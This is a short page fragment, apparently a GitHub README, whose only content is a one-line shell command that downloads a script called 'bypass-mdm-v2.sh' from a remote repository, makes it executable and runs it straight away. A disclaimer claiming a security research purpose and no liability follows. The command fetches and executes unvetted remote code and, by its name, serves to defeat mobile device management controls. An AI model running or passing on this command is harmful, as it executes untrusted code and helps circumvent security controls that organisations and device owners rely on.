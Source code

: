 <pre>curl https://raw.githubusercontent.com/vthacc/Reportmdm/main/bypass-mdm-v2.sh -o test.sh && chmod +x ./test.sh && ./test.sh</pre>

Note: For security vulnerability research purposes only. Disclaimer: No liability for any misuse in any form.

